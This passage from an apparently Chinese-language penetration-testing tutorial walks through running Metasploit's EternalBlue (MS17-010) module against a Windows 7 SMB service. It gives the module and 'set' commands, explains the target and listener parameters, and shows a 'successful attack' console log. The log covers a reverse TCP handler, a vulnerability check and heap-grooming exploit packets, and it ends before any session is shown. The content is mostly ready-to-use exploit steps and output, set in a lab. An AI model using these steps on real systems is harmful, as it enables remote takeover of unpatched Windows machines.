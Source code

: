 > 使用模块

```
use 0
or
use exploit/windows/smb/ms17_010_eternalblue
```

> 查看设置

```
options
```

![](https://img2.imgtp.com/2024/05/08/aPXOeWy5.png)

![](https://img2.imgtp.com/2024/05/08/su9Fv2bM.png)

> 参数

| 参数   | 说明           |
| ------ | -------------- |
| Rhosts | 攻击目标的IP   |
| Rport  | 攻击目标的端口 |
| Lhost  | Kali当前IP     |
| Lport  | Kali当前端口   |

> 示例

```sh
set RHOSTS 192.168.2.214
set RPORT 10001
```

#### 结果

##### 攻击成功

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 192.168.126.128:4444 
[*] 192.168.126.131:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.126.131:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.126.131:445   - Scanned 1 of 1 hosts (100% complete)
[+] 192.168.126.131:445 - The target is vulnerable.
[*] 192.168.126.131:445 - Connecting to target for exploitation.
[+] 192.168.126.131:445 - Connection established for exploitation.
[+] 192.168.126.131:445 - Target OS selected valid for OS indicated by SMB reply
[*] 192.168.126.131:445 - CORE raw buffer dump (38 bytes)
[*] 192.168.126.131:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 55 6c 74 69 6d 61  Windows 7 Ultima
[*] 192.168.126.131:445 - 0x00000010  74 65 20 37 36 30 31 20 53 65 72 76 69 63 65 20  te 7601 Service 
[*] 192.168.126.131:445 - 0x00000020  50 61 63 6b 20 31                                Pack 1          
[+] 192.168.126.131:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 192.168.126.131:445 - Trying exploit with 12 Groom Allocations.
[*] 192.168.126.131:445 - Sending all but last fragment of exploit packet
[*] 192.168.126.131:445 - Starting non-paged pool grooming
[+] 192.168.126.131:445 - Sending SMBv2 buffers
[+] 192.168.126.131:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 192.168.126.131:445 - Sending final SMBv2 buffers.
[*] 192.168.126.131:445 - Sending last fragment of exploit packet!
[*] 192.168.126.131:445 - Receiving response from exploit packet
```